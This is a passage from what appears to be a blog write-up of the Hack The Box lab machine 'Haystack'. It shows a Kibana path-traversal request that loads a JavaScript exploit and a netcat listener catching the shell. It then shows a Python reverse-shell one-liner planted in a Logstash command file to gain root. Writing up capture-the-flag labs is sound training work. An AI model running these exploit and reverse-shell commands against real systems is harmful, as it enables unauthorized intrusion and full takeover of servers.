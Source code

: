 We then proceed to exploit the vulnerability on the `Haystack` machine.
{% highlight bash %}
[security@haystack tmp]$
curl -XGET "http://127.0.0.1:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../
tmp/exploit.js"
{% endhighlight %}

Back to our machine, we caught the reverse shell.
{% highlight bash %}
connect to [10.10.XXX.XXX] from (UNKNOWN) [10.10.10.115] 39144
python -c 'import pty; pty.spawn("/bin/bash")'  
bash-4.2$ id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
{% endhighlight %}

# root.txt

As user `kibana`, we can now write to the `/opt/kibana` directory.
{% highlight bash %}
bash-4.2$ touch /opt/kibana/logstash_cmd
touch /opt/kibana/logstash_cmd
bash-4.2$ chmod 777 /opt/kibana/logstash_cmd
chmod 777 /opt/kibana/logstash_cmd
{% endhighlight %}

Before writing the line to the file, we need to first start another listener on our machine.
{% highlight bash %}
$ nc -lvnp 1338
listening on [any] 1338 ...
{% endhighlight %}

We then proceeded to write our reverse shell command to the file.
{% highlight bash %}
bash-4.2$ echo "Ejecutar comando : python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect((\"10.10.XXX.XXX\",1338));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/
sh\",\"-i\"]);'" >> /opt/kibana/logstash_cmd
{% endhighlight %}

Back to our machine, we finally got a `root` shell!
{% highlight bash %}
connect to [10.10.XXX.XXX] from (UNKNOWN) [10.10.10.115] 57600
sh: no hay control de trabajos en este shell
sh-4.2# id
uid=0(root) gid=0(root) grupos=0(root) contexto=system_u:system_r:unconfined_service_t:s0
sh-4.2# cat /root/root.txt
3f5fXXXXXXXXXXXXXXXXXXXXXXXXXXXX
{% endhighlight %}

## Rooted ! Thank you for reading and look forward for more writeups and articles !
